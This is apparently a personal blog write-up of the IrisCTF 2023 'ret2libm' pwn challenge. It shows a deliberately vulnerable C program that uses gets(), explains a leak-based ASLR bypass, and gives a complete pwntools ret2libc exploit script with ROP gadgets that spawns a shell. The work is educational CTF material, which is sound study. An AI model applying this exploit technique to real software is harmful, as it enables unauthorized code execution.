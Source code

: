 +++ 
weight = 10
tags = ["ctf", "pwn"] 
categories = ["CTF Writeups", "pwn"] 
date = "2023-1-9" 
description = "A relatively easy `pwn` challenge similar to classic ret2libc" 
title_img = """{{< image src="https://irissec.xyz/assets/img/logo_ascii.png" alt="" style="border-radius: 5px; height: 13vh; width: auto; display: inline; vertical-align: middle; " >}}"""
title = """ret2libm - IrisCTF 2023"""
cover = "libcbasecalc.png"
+++

# Overview

`ret2libm` was the 2nd most solved `pwn` challenge of [IrisCTF 2023](https://ctftime.org/event/1774), written by `sera`.

Description:
> I need to make a pwn? Let's go with that standard warmup rop thing... what was it... ret2libm?

We are provided with a zip file containing a binary, source code, `libc`, `libm`, and Makefile.

{{< code language="c" title="chal.c" id="1" expand="Show" collapse="Hide" isCollapsed="false" >}}
#include <math.h>
#include <stdio.h>

// gcc -fno-stack-protector -lm

int main(int argc, char* argv) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    char yours[8];

    printf("Check out my pecs: %p\n", fabs);
    printf("How about yours? ");
    gets(yours);
    printf("Let's see how they stack up.");

    return 0;
}
{{< /code >}}

{{< code language="makefile" title="Makefile" id="2" expand="Show" collapse="Hide" isCollapsed="true" >}}
chal: chal.c
    gcc -fno-stack-protector chal.c -o chal -lm
{{< /code >}}

The `gets()` function is clearly a classic buffer overflow vulnerability as it reads in any amount of bytes regardless of what the buffer `yours[8]` can actually hold. Therefore we can overwrite the return pointer `rip` and control what code it executes next.

There also isn't a canary we need to bypass.

``` 
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Using `pwndbg` we find the offset to be `16` bytes until we overwrite the return pointer.

# Exploitation

The next step is to do a classic `ret2libc`. However, there is ASLR that we need to bypass, as the `libc` library is loaded into a different address each time. The program just so happens to give us a leak from the `libm` library which *should* allow us to calculate the `libc` base address.

```c
printf("Check out my pecs: %p\n", fabs);
```

I assumed the `fabs` address would be a **constant offset** from the `libc` base address, so after finding that offset we should be able to calculate it.

{{< image src="./img/procmap.png" alt="" position="center" style="border-radius: 5px;" >}}

`libc` base shown here is `0x7f0f11c0b000`, the `fabs` leak was `0x7f0f11e2e4d0`, so calculating `fabs - libc = 0x7f0f11e2e4d0 - 0x7f0f11c0b000 = 0x2234d0` we get an offset of `0x2234d0`. So to calculate the libc base address from the fabs leak, we simply do `libc.address = fabs - 0x2234d0`

**WAIT!** - The `libm` and `libc` binary used by our linux system is probably different to the ones given! We need to patch the binary to use the provided libraries `libc-2.27.so` and `libm-2.27.so`.

`pwninit` is a popular tool for this, however, it only links the `libc` file - we need to link both `libc` and `libm`. Therefore we will use `patchelf` (which pwninit uses anyways).

Making a copy of the binary `chal_patched` and running `patchelf --add-needed libm-2.27.so chal_patched` and `patchelf --add-needed libc-2.27.so chal_patched` we have linked the binary to use those libraries instead of our system ones!If we didn't do so, our payload may work on our system, but not the remote as they are using different libraries with different addresses and sizes.

Now that we've linked the correct libraries, we need to recalculate the offset `0x7ffff7a66cf0 - 0x7ffff7644000 = 0x422cf0`.

Okay lets setup a pwntools script to automate this!

```py
from pwn import *

filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")

p = process(filepath)
input() # wait for gdb debug (gdb -p <PID>)

offset = 16
libc_offset =  0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset

print(f"{hex(libc.address) = }")
```

We can reaffirm that the address is correct by using `gdb -p <PID>` to attach to the process, and check if the calculated address is correct.

{{< figure src="./img/libcbasecalc.png" alt="" position="center" style="border-radius: 8px;" caption="<i>and it indeed is...</i>" captionPosition="left" captionStyle="" >}}

Now we have the `libc` address we can do a standard `ret2libc`. I will not go in-depth on this as it's covered a lot, check out [this amazing resource](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc) if you want to fully grasp it.

Using `ROPgadget` to find gadgets in `libc` (I chose `libc` instead of the binary as we already had its base address, didn't want to do another calculation), we find the required `pop rdi; ret` gadget as per [64 bit calling conventions](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions#64-bit) to pass the `/bin/sh` string into `system()`, and another `ret` gadget for stack alignment.

Now we simply return to libc!

```py
from pwn import *

filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")

p = process(filepath)
input() # wait for gdb debug

offset = 16
libc_offset =  0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset

print(f"{hex(libc.address) = }")

pop_rdi = libc.address + 0x000000000002164f
ret = libc.address + 0x00000000000008aa

system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh'))

payload = flat(
    b"A" * offset,
    ret, # stack alignment
    pop_rdi,
    binsh,
    system,
    0x0
)

p.sendline(payload)
p.interactive()
```

Running this we indeed get a shell!

{{< image src="./img/yayshell.png" alt="" position="center" style="border-radius: 5px;" >}}

Now all we have to do is to connect to remote and do the same ... right? Apparently not. Running the script gives us an EOF, meaning the program crashed or ended.

{{< image src="./img/verysad.png" alt="" position="center" style="border-radius: 5px;" >}}

This is the last thing we want to see - our exploit working locally, but not on remote! When this happened I first thought I didn't link the libraries correctly, but after relinking and additional testing that didn't seem to be the case. Having no other idea what it could be, I opened a ticket on the [discord server](https://discord.com/invite/TJMssbJV).

After explaining my issue, the organiser `sera` released a Dockerfile that allowed the remote enviroment to be built on your own computer! This meant we could now debug on an enviroment identical to the remote instance, and potentially find out the issue.

After doing so, my payload unfortunetly still worked without modifications, which was really weird as the enviroment was supposedly identical to the remote instance. `sera` mentioned it could be that the `libc` was in fact *not* a constant offset of `fabs` function from `libm` on the remote instance, which meant the `libc.address` would be wrong.

{{< image src="./img/whynoworklol.png" alt="" position="center" style="border-radius: 5px;" >}}

`sera` verified that the scripts work on their docker as well, so decided to award me the flag anyways regardless of it not working on remote.

{{< image src="./img/wowflag.png" alt="" position="center" style="border-radius: 5px;" >}}

First time I've just been handed the flag by organisers, even in other competitions (*cough* Pecan CTF) where challenges were literally broken and we had the solution, organisers wouldn't award points, so huge thanks to `sera` for the help and flag!

The intended solution was to use a one-gadget in the libc and a libc address already in `rax` to (i assume) calculate the offset.

# Conclusion

Overall this was a pretty fun challenge despite the hours of trying to figure out why it wouldn't work on remote, I only started learning `pwn` recently and was glad theres a CTF with `pwn` challenges I could solve.

In the end we ([PissedEmu](https://ctftime.org/team/160273)) placed `11th` on the [leaderboard](https://ctftime.org/event/1774) which I'm happy about!

Additional thanks to the organisers for hosting IrisCTF 2023, I'll be looking forward to next year's event!

Also, please DM me on Discord at `TheSavageTeddy#7458` if there are issues or things I missed in this blog post as it is my first.